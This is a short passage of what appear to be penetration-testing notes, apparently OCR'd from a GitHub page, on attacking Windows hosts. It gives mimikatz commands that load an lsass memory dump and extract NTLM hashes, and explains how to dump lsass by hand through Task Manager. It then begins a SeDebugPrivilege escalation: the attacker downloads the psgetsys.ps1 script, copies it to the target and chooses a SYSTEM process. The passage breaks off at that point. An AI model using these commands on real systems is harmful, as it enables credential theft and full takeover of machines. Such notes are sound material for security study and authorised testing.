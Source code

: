     mimikatz.exe
    
    # in mimikatz shell
    log
    # to log all command output in a .txt file, useful for saving huge data

    sekurlsa::minidump lsass.dmp
    # load the procdump output
    # make sure the dmp file is in the same directory

    sekurlsa::logonpasswords
    # fetch NTLM hashes from dump

    # if we cannot load tools on target but we have RDP
    # we can take manual memory dump from Task Manager > Details > choose lsass.exe process
    # right click and create dump file
    ```

    ```ps
    # we can leverage SeDebugPrivilege for RCE too

    # on attacker
    wget https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

    # transfer this script to target machine

    # open an elevated PS shell - run as admin

    tasklist
    # shows running process and PID
    # winlogon.exe, for example, runs as SYSTEM - we can choose this
